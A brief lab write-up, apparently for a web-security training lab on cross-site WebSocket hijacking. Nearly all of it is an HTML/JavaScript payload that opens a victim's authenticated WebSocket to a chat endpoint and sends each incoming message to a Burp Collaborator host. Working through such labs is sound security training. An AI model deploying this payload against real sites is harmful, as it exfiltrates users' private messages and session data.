 # Lab: Cross-site WebSocket hijacking
We should open a WebSocket and send the incoming messages to our host website - burp collaborator.
The constructed HTML:
```html
<script>
  var ws = new WebSocket('wss://a8jqoxlt56vwc85khm1prw4mzd55tu.web-security-academy.net/chat');
  ws.onopen= function(e) {
  ws.send("READY");
  };
ws.onmessage=function(e) {
var req = new XMLHttpRequest();
req.open('get','https://a8jqoxlt56vwc85khm1prw4mzd55tu.burpcollaborator.net/?sdsd='+e.data,true);
req.send();
};
</script>
```